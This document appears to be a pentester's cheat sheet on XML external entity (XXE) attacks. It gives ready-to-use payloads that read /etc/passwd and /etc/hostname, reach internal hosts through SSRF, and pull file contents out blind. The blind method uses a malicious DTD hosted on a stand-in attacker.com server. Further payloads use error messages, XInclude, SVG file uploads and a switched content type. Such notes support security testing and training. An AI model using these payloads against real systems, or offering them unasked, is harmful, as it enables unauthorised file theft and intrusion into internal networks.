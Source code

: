# XXE

<details>

<summary>Introduction</summary>

**What is XML**

* Some applications use the XML format to transmit data between the browser and the server.
* Its popularity has now declined in favor of the JSON format

**XXE Impact**

* Retrieve files
* Perform SSRF attacks

</details>

## <mark style="color:yellow;">Retrieve files</mark>

1. Introduce (or edit) a DOCTYPE element defining an external entity with the file path.
2. Edit a data value in the XML returned in the app's response to use the defined external entity.

{% hint style="info" %}
**Note**: to systematically test for XXE, test each data node in the XML individually using your defined entity to see if it appears in the response.
{% endhint %}

```xml
<! -- Original -->
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck> 
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

## <mark style="color:yellow;">Perform SSRF attacks</mark>

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

## <mark style="color:yellow;">Blind XXE</mark>

### <mark style="color:yellow;">Out-of-band (OAST) techniques</mark> <a href="#detecting-blind-xxe-using-out-of-band-oast-techniques" id="detecting-blind-xxe-using-out-of-band-oast-techniques"></a>

**Detection**

* Detecting as SSRF
  * ```xml
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker.com/"> ]>
    ```
* Regular entities are blocked? Bypass via XML parameter entities
  * ```xml
    <!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://attacker.com"> %xxe; ]>
    ```
  * This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD

**Exploitation**

1. Start a web server and host on `http://attacker.com/example.dtd` this malicious dtd.

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % stack "<!ENTITY &#x25; exfil SYSTEM 'http://attaccker.com/?x=%file;'>">
%stack;
%exfil;
```

2. Add this external entity

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/example.dtd"> %xxe;]>
```

{% hint style="info" %}
**Note**: This technique might not work with multiline files.
{% endhint %}

### <mark style="color:yellow;">Via error messages</mark> <a href="#exploiting-blind-xxe-to-retrieve-data-via-error-messages" id="exploiting-blind-xxe-to-retrieve-data-via-error-messages"></a>

Trigger an XML parsing error message with the file contents.&#x20;

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

{% hint style="info" %}
**Note**: This works if you notice an error in the response when detecting with OAST (e.g., the reflected URL entered)
{% endhint %}

## <mark style="color:yellow;">Hidden attack surface</mark>

* **First case** - Requests that contain data in XML format
* **Second case -** Requests that do not contain any XML
  * **Detection**: Add entity reference that doesn't exist to cause an error  -> ok it's XML ...

### <mark style="color:yellow;">XInclude attacks</mark>

Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document

`XInclude` is a part of the XML specification that allows an XML document to be built from sub-documents

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

### <mark style="color:yellow;">Via file upload</mark>

Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like DOCX and image formats like SVG

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

This works if it's used image processing library & support SVG images & allow external entity

### <mark style="color:yellow;">Via modified content type</mark>

Some web app will tolerate other content types.

**Expected request**

```http
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

**Sumbit following request**

```http
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```
